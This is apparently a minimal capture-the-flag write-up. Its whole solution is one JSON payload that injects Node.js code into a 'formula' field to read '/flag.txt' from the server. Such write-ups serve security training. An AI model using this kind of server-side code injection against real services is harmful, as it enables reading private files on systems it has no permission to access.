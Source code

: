 
## Writeup Simple 

```bash
{"formula":"require('fs').readFileSync('/flag.txt').toString();"}
```


